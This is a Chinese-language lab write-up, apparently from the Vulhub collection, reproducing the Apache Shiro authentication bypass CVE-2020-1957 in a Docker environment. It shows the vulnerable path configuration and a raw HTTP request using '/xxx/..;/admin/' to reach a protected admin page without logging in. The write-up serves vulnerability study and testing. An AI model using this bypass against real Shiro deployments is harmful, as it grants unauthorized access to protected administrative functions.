 # Apache Shiro 认证绕过漏洞 CVE-2020-1957

## 漏洞描述

Apache Shiro是一款开源安全框架，提供身份验证、授权、密码学和会话管理。Shiro框架直观、易用，同时也能提供健壮的安全性。

在Apache Shiro 1.5.2以前的版本中，在使用Spring动态控制器时，攻击者通过构造`..;`这样的跳转，可以绕过Shiro中对目录的权限限制。

参考链接：

- https://github.com/apache/shiro/commit/3708d7907016bf2fa12691dff6ff0def1249b8ce#diff-98f7bc5c0391389e56531f8b3754081aL139
- https://xz.aliyun.com/t/8281
- https://blog.spoock.com/2020/05/09/cve-2020-1957/

## 环境搭建

Vulhub执行如下命令启动一个搭载Spring 2.2.2与Shiro 1.5.1的应用：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可查看首页。

这个应用中对URL权限的配置如下：

```
@Bean
public ShiroFilterChainDefinition shiroFilterChainDefinition() {
    DefaultShiroFilterChainDefinition chainDefinition = new DefaultShiroFilterChainDefinition();
    chainDefinition.addPathDefinition("/login.html", "authc"); // need to accept POSTs from the login form
    chainDefinition.addPathDefinition("/logout", "logout");
    chainDefinition.addPathDefinition("/admin/**", "authc");
    return chainDefinition;
}
```

## 漏洞复现

直接请求管理页面`/admin/`，无法访问，将会被重定向到登录页面：

```
GET /admin HTTP/1.1
Host: your-vps-ip:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

![image-20220301100715129](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203011007191.png)

构造恶意请求`/xxx/..;/admin/`，即可绕过权限校验，访问到管理页面：

```
GET /xxx/..;/admin/ HTTP/1.1
Host: your-vps-ip:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

![image-20220301100858801](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203011008871.png)

